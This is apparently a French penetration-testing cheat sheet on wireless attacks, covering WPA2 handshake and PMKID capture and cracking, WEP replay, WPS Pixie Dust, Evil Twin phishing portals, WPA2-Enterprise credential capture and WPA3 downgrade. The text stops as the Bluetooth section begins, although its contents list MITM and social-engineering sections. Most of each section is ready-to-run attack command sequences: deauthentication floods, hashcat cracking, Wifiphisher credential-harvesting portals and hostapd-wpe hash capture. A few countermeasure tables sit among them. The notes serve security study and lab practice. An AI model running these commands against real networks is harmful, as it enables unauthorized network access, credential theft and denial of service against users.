# Wireless, MITM & Social Engineering

> [!info] **C'est quoi ?**
> Trois familles d'attaques complémentaires : le **réseau sans fil**, les **attaques MITM**
> (homme du milieu) et l'**ingénierie sociale** (le maillon humain).

> [!tip] **Sommaire**
> **Wireless** : §1-8 (WiFi) · §9 (WPA3/SAE) · §10 (Bluetooth/BLE) · §11 (Radio & SDR) · §12 (RFID/NFC) ·
> **MITM** : §13-20 (ARP, DNS, HTTPS, LLMNR, NTLM relay, DHCPv6, JS injection) ·
> **SE** : §21-25 (framework, phishing, MFA bypass, USB drop, vishing/smishing) ·
> **Synthèse** : §26 (MITRE ATT&CK) · §27 (Détection & Défense) · §28 (Tips & Pièges) · §29 (Méthode express)

---

## 1. Attaques WiFi — Vue d'ensemble

> Hub WiFi : [[Techniques/Attaques WiFi (WPA2 et PMKID)| Attaques WiFi]] · fiches dédiées :
> [[Techniques/Attaques WiFi - Préparation & Basiques| Préparation]] ·
> [[Techniques/Attaques WiFi - WEP| WEP]] · [[Techniques/Attaques WiFi - WPA2 PSK| WPA2-PSK]] ·
> [[Techniques/Attaques WiFi - PMKID| PMKID]] · [[Techniques/Attaques WiFi - WPS| WPS]] ·
> [[Techniques/Attaques WiFi - Enterprise| Enterprise]] · [[Techniques/Attaques WiFi - Rogue AP| Rogue AP]] ·
> [[Techniques/Attaques WiFi - Outils & Recon| Outils & Recon]]

L'attaque WiFi vise à obtenir la **passphrase**, les **credentials réseau** ou la **confiance**
d'un utilisateur via le protocole 802.11. Trois objectifs : **casser l'authentification** (PSK,
PIN WPS, EAP), **se substituer au réseau** (Evil Twin / rogue AP), ou **dénier/écouter** (deauth,
KRACK, sniffing). Le choix de l'attaque dépend de la configuration de la cible : chiffrement,
clients présents, WPS, mode entreprise, AP voisins.



### 1.1 Les générations de sécurité WiFi

| Standard | Année | Chiffrement | Authentification | Attaque principale |
|:--|:--:|:--|:--|:--|
| **WEP** | 1999 | RC4 + CRC32 | Clé partagée statique | ARP replay, chop-chop, fragmentation |
| **WPA** | 2003 | TKIP/RC4 + MIC | PSK / 802.1X | Fragmentation, dictionary, KRACK (TKIP) |
| **WPA2** | 2004 | CCMP/AES | PSK / 802.1X | Handshake + dictionary, PMKID, KRACK |
| **WPA2/WPA3** | 2018 | CCMP + GCMP | PSK + SAE (mixte) | Downgrade vers WPA2 (transition mode) |
| **WPA3** | 2018 | GCMP/AES | SAE (Dragonfly) | Dragonblood, downgrade, side-channels |
| **WPA3-Enterprise** | 2018 | GCMP/AES | EAP-TLS (192-bit) | Difficile — cibler l'utilisateur (SE) |

> [!warning] **Point clé**
> La plupart des attaques ne **cassent pas** le chiffrement : elles capturent un **handshake** ou un
> **hash** puis le **cassent hors-ligne** (dictionary). Le WiFi est une porte d'entrée : une fois le
> PSK connu, on entre dans le réseau interne → [[04 - Exploitation Réseau]].

### 1.2 La famille d'outils

| Outil | Rôle | Fiche |
|:--|:--|:--|
| `aircrack-ng` suite | Moniteur, capture, deauth, crack | [[Outil - aircrack-ng]] |
| `hcxdumptool` + `hcxtools` | Capture PMKID / handshakes | [[Outil - hcxdumptool]] |
| `Wifite` | Automatise le processus | [[Outil - Wifite]] |
| `Kismet` | Recon / WIDS passif | [[Outil - Kismet]] |
| `mdk4` | Deauth massif, DoS | [[Outil - mdk4]] |
| `Wifiphisher` | Evil Twin + portail captif | [[Outil - Wifiphisher]] |
| `hostapd-wpe` | Rogue AP Enterprise | §8 |
| `Reaver` / `oneshot` / `pixiewps` | WPS | [[Outil - Reaver]] |

---

## 2. Préparation & Mode Moniteur

Le **mode moniteur** fait écouter la carte sans s'associer : elle voit toutes les trames 802.11 du
canal. Prérequis absolu pour **capturer** (handshake, PMKID) et **injecter** (deauth, ARP replay).



### 2.1 Workflow de base

```bash
iwconfig                       # vérifier l'interface
sudo airmon-ng check kill      # tuer NetworkManager/wpa_supplicant
sudo airmon-ng start wlan0     # → interface wlan0mon
iwconfig wlan0mon              # doit afficher "Mode:Monitor"
sudo iw reg set FR             # région → canaux complets
sudo airodump-ng wlan0mon      # scanner
sudo iwconfig wlan0mon channel 6   # verrouiller le canal
```

### 2.2 Le choix de l'adaptateur (le vrai point bloquant)

| Chipset | Bande | Moniteur | Injection | Verdict |
|:--|:--:|:--:|:--:|:--|
| **Atheros AR9271** | 2.4 GHz | | | Référence, très stable |
| **Realtek rtl8812au** (Alfa AWUS036ACH) | 2.4+5 GHz | | | Le standard actuel (driver à installer) |
| **Realtek rtl8187** (Alfa AWUS036H) | 2.4 GHz | | | Legacy fiable, pas de 5 GHz |
| **Ralink RT5370** | 2.4 GHz | | | Pas cher, pas de 5 GHz |
| Intel (7260, 8265...) | 2.4+5 GHz | | souvent | Galère, firmware bloqué |
| Broadcom (BCM43xx) | 2.4+5 GHz | | | Drivers propriétaires → à éviter |

> [!tip] **Règle d'or** : vérifie AVANT d'acheter avec `airmon-ng` / `iw list` que
> `Monitor: yes` + `Packet injection: yes`. Sans injection : pas de deauth, pas d'ARP replay.

### 2.3 Région & canaux

| Région | Canaux 2.4 GHz | Canaux 5 GHz | Particularités |
|:--|:--|:--|:--|
| **US** | 1-11 | 36-48, 149-165 | pas de canaux 12/13 |
| **FR / EU** | 1-13 | 36-64, 100-140 | DFS 100-140, canal 13 autorisé |
| **JP** | 1-14 | 36-64 | canal 14 réservé 802.11b |
| **CN** | 1-13 | 36-64, 149-165 | — |

> Détails : [[Techniques/Attaques WiFi - Préparation & Basiques| Préparation]],
> [[Techniques/Attaques WiFi - Outils & Recon| Outils & Recon]]

---

## 3. WPA2 — Capture du handshake

Le WPA2-PSK protège le réseau avec une **passphrase** (8-63 caractères) :

```
PMK  = PBKDF2(passphrase, SSID, 4096 itérations, 256 bits)
PTK  = PRF(PMK, ANonce, SNonce, MAC_AP, MAC_STA)
MIC  = HMAC(key, contenu de la trame)
```

Le **4-way handshake** (EAPOL) a lieu à chaque association. Le capturer permet du **crack
hors-ligne** : on teste des passphrases candidates et on vérifie le MIC. Il faut un **client** qui
s'associe → sinon **deauth** pour forcer une réassociation.



### 3.1 Workflow complet

```bash
# 1. Cibler (en fond)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# 2. Deauth pour forcer la réassociation
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# 3. Vérifier le handshake
sudo aircrack-ng capture-01.cap

# 4. Crack CPU
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

# 5. Conversion hashcat (GPU) → mode 22000
hcxpcapngtool capture-01.cap -o hash.22000
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
hashcat -m 22000 hash.22000 wordlist.txt -r rules.rule
```

### 3.2 Conversion & modes de hash

| Outil | Mode | Format | Quand |
|:--|:--|:--|:--|
| `aircrack-ng` | — | `.cap` | Rapide, CPU, simple |
| `hashcat` | **22000** | PMKID + EAPOL (unifié) | GPU, moderne |
| `hashcat` | 2500 | WPA-EAPOL (legacy) | Anciens fichiers |
| `john` | `wpapcap` / `wpask` | `.cap` / `.hccapx` | [[Outil - John the Ripper]] |

```bash
sudo wifite --no-wps --no-pmkid --dict rockyou.txt   # tout automatiser
```

> **Piège** : le hash 22000 doit contenir l'**ESSID correct** (header de la ligne). SSID
> tronqué/absent (`?`) → crack voué à l'échec. Vérifier `cat hash.22000`.

> Détail : [[Techniques/Attaques WiFi - WPA2 PSK| WPA2-PSK]],
> [[Techniques/Attaques WiFi (WPA2 et PMKID)| Hub WiFi]], crack GPU : [[08 - Password Cracking]]

---

## 4. PMKID — Attaque sans client

Le **PMKID** est envoyé par l'AP dans l'IE **RSN** de la **première trame d'association** (EAPOL
message 1) — même si **aucun client** n'est présent. On le capte en s'associant nous-mêmes :

```
PMKID = HMAC-SHA1(PMK, "PMK Name" | MAC_AP | MAC_STA)
```



### 4.1 Workflow complet

```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
# Cibler un AP précis :
sudo hcxdumptool -i wlan0mon -o capture.pcapng \
  --filterlist_ap=AA:BB:CC:DD:EE:FF --filtermode=2
hcxpcapngtool -o hash.22000 capture.pcapng
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
```

### 4.2 PMKID vs handshake

| Critère | Handshake 4-way | PMKID |
|:--|:--|:--|
| Client nécessaire | (deauth pour réasso) | (on s'associe nous-mêmes) |
| Trames nécessaires | EAPOL 1-4 | EAPOL message 1 seul |
| Compatibilité matérielle | Toutes cartes | Cartes qui exposent le PMKID |
| Fiabilité AP récents | | certains AP n'envoient pas de PMKID |
| Crack | `aircrack-ng` / `hashcat -m 22000` | `hashcat -m 22000` |

> [!note] **Astuce lab** : le PMKID est idéal (pas de client, pas de deauth). Sur matériel récent
> (802.11w, AP durci), le handshake reste la référence — capte **les deux** si possible.

> Fiche : [[Techniques/Attaques WiFi - PMKID| PMKID]], outil : [[Outil - hcxdumptool]]

---

## 5. WEP — Le legacy

Le WEP chiffre les trames en **RC4** avec une clé (40/104 bits) + **IV de 24 bits** (collisions
d'IVs) et un **CRC32 non cryptographique** (pas d'intégrité réelle). La clé se dérive
**statistiquement** en capturant des milliers d'IVs, ou en forçant l'AP à en générer.



### 5.1 ARP replay (le plus efficace)

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon   # capturer
sudo aireplay-ng -1 0 -e "ESSID" -a AA:BB:CC:DD:EE:FF wlan0mon    # fake auth
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon                 # ARP replay
sudo aircrack-ng -b AA:BB:CC:DD:EE:FF wep-01.cap                  # crack dès ~20k IVs
```

### 5.2 Chop-chop (sans client)

```bash
sudo aireplay-ng -4 -b AA:BB:CC:DD:EE:FF wlan0mon                 # → fragment-01.xor (PRGA)
sudo packetforge-ng -0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 \
  -k 255.255.255.255 -l 255.255.255.255 -y fragment-01.xor -w forge.arw
sudo aireplay-ng -2 -r forge.arw wlan0mon                          # réinjecter
```

### 5.3 Fragmentation

```bash
sudo aireplay-ng -5 -b AA:BB:CC:DD:EE:FF wlan0mon                  # ~1500 octets de PRGA
# puis packetforge-ng + injection comme au §5.2
```

| Méthode | Client requis | Vitesse | Complexité |
|:--|:--:|:--:|:--|
| **ARP replay** | | Très rapide | Simple |
| **Chop-chop** | | Moyenne | Moyenne |
| **Fragmentation** | | Moyenne | Moyenne |

> [!warning] Un AP en WEP = résidu des années 2000 : l'attaque prend **des minutes**. Rares en
> réel → labs/CTF seulement. Fiche : [[Techniques/Attaques WiFi - WEP| WEP]]

---

## 6. WPS & Pixie Dust

Le **WPS** appaire avec un **PIN de 8 chiffres** (le dernier est un checksum → **10^7**
combinaisons, en 2 moitiés de 4 chiffres → ~11 000 essais). Le **Pixie Dust** (2014, D. Bongard)
exploite le PRNG faible de certains chipsets (Realtek, Ralink, MediaTek, Broadcom, Atheros) : les
valeurs **PKE/E-S1/E-S2** sont calculables → WPS cassé **hors-ligne en secondes/minutes**.



### 6.1 Workflow complet

```bash
sudo wash -i wlan0mon                    # détecter AP WPS + verrouillage
sudo oneshot -i wlan0mon -b AA:BB:CC:DD:EE:FF -K   # pixie dust (le plus rapide)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -K 1   # reaver + pixiewps
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p 12345670  # PIN connu
pixiewps --eapol ... --timeout ... --pke ... --pkr ... --es1 ... --es2 ...
```

### 6.2 Contre-mesures

| Mesure | Effet | Bypass |
|:--|:--|:--|
| **Lockout après N échecs** | Bloque le bruteforce online | Attaque lente / AP reboot |
| **Désactiver WPS** | Aucune attaque WPS | Le seul vrai remède |
| PIN 8 chiffres | 10^7 combinaisons max | Pixie Dust si chipset faible |

> [!warning] Le Pixie Dust casse le **PIN**, pas la passphrase → il faut ensuite s'associer par
> WPS pour récupérer la clé. Certains AP désactivent WPS après échecs → patience.
> Fiche : [[Techniques/Attaques WiFi - WPS| WPS]], outil : [[Outil - Reaver]]

---

## 7. Rogue AP & Evil Twin

L'**Evil Twin** clone le SSID d'un AP légitime (même nom, canal, plus fort signal) pour attirer les
clients, puis sert un **portail captif** (vol de credentials) ou distribue un **payload**. Le
**rogue AP** est un AP \"fantôme\" déployé pour attirer, détourner ou piéger.



### 7.1 Airbase-ng (base)

```bash
sudo airbase-ng -e "FreeWifi" -c 6 wlan0mon        # AP fantôme → at0
sudo ifconfig at0 up && sudo iwconfig at0 essid "FreeWifi"
# + dnsmasq (DHCP/DNS) + iptables NAT vers Internet
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon   # deauth continu
```

### 7.2 hostapd-mana & Wifiphisher

```bash
# hostapd-mana : AP + portail + harvester automatique
sudo hostapd-mana /etc/mana/mana.conf
# (mana_open / mana_psk : variantes)

# Wifiphisher : Evil Twin automatisé avec scénarios de portail
sudo wifiphisher -aI wlan0mon -e "FreeWifi" -p firmware-upgrade
sudo wifiphisher -aI wlan0mon -e "FreeWifi" -p wifi_connect
# deauth automatique des clients de l'AP légitime
```

### 7.3 Comparaison des outils

| Outil | Type | Portail captif | Deauth auto | Réalisme |
|:--|:--|:--:|:--:|:--|
| `airbase-ng` | Rogue AP | Manuel (hostapd+dnsmasq) | | Bon |
| `hostapd-mana` | Evil Twin | + harvester | | Très bon |
| `Wifiphisher` | Evil Twin | (scénarios) | | Excellent |
| `WiFi Pineapple` | Hardware | (modules) | | La référence physique |

> Fiche : [[Techniques/Attaques WiFi - Rogue AP| Rogue AP]], outil : [[Outil - Wifiphisher]],
> hardware : [[Outil - WiFi Pineapple]]

---

## 8. Enterprise (WPA2-EAP)

Les réseaux **802.1X / WPA2-Enterprise** remplacent la passphrase par une authentification **EAP**
vers un serveur **RADIUS** : chaque utilisateur a ses credentials **domaine**. La cible n'est plus
la clé du réseau mais le **login + mot de passe** (ou hash NetNTLMv2) de l'utilisateur.

### 8.1 Les types EAP

| Type EAP | Tunnel | Auth intérieure | Attaque |
|:--|:--:|:--|:--|
| **PEAP-MSCHAPv2** | TLS (cert serveur) | MSCHAPv2 | hostapd-wpe → hash NetNTLMv2 crackable |
| **EAP-TTLS** | TLS | PAP/CHAP/MSCHAPv2 | hash capturé (selon inner) |
| **EAP-MSCHAPv2** | | MSCHAPv2 | hash directement |
| **EAP-TLS** | TLS | Certificats client | très dur (certs requis) |
| **EAP-GTC** | TLS | OTP | Rogue AP + harvester OTP |



### 8.2 Workflow hostapd-wpe

```bash
# /etc/hostapd-wpe/hostapd-wpe.conf :
#   interface=wlan0 | ssid=Enterprise | wpa_key_mgmt=WPA-EAP | eap_server=1
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
# → credentials loggés (console + /var/log/hostapd-wpe.log)
hashcat -m 5500 mschapv2-hash.txt /usr/share/wordlists/rockyou.txt
# ou john : john hash.txt --format=netntlmv1 --wordlist=...
```

### 8.3 Variantes

- **Credential harvester** : portail (hostapd-mana / Wifiphisher) qui demande login/mdp.
- **Relay** : les hashes capturés peuvent être **relayés** (voir §18).
- **Cert non vérifié** : si la victime ne valide pas le cert serveur, le rogue AP s'intercale.

> [!warning] **EAP-TLS (le rempart)** : il exige un **certificat client** → le rogue AP classique
> échoue. Les pentesters EAP ciblent surtout **PEAP/MSCHAPv2** legacy.
> Fiche : [[Techniques/Attaques WiFi - Enterprise| Enterprise]], cross-ref : [[05 - Active Directory]]

---

## 9. WPA3 / SAE

Le **WPA3** remplace le PSK par **SAE** (Simultaneous Authentication of Equals), basé sur
**Dragonfly** (DH + \"hunting-and-pecking\"). Il protège contre le **dictionary offline** : le
handshake SAE ne se crack pas hors-ligne directement. Chiffrement **GCMP (AES)**.



### 9.1 Faiblesses connues (Dragonblood, 2019)

| Faiblesse | Description | Conséquence |
|:--|:--|:--|
| **Transition mode** | Réseau WPA2/WPA3 mixte | Downgrade → attaque WPA2 classique |
| **Side-channel timing** | Durée du hunting-and-pecking | Fuite du mot de passe par timing |
| **Downgrade** | Forcer le client en WPA2 | Handshake classique capturable |
| **SAE PMKID** | PMKID SAE parfois émis | Crack offline (config défaillante) |

### 9.2 Attaquer un réseau WPA3

```bash
# Identifier le mode (SAE pur / SAE-CCMP-WPA2 transition)
sudo airodump-ng wlan0mon

# Transition mode → attaquer le côté WPA2 (downgrade)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Capture du handshake SAE (trames eapol/sae dans Wireshark)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w sae wlan0mon

# PMKID SAE (Dragonblood) via hcxdumptool
sudo hcxdumptool -i wlan0mon -o sae.pcapng --enable_status=1
hcxpcapngtool -o hash.22000 sae.pcapng
hashcat -m 22000 hash.22000 rockyou.txt
```

> [!note] **En pratique** : le WPA3 pur est **dur à casser par le WiFi**. Les vraies portes :
> **transition mode** (downgrade), l'**utilisateur** (SE/phishing), le **poste** (autres vulns).
> Ne passe pas 3 heures sur un WPA3 pur.

---

## 10. Bluetooth & BLE

**Bluetooth Classic** (BR/EDR) = audio/casques (pairing souvent faible). **BLE** = capteurs IoT,
smart tags, serrures, montres. Attaques : **sniffing**, **pairing MITM**, **spoofing**,
**injection**, **relay**.

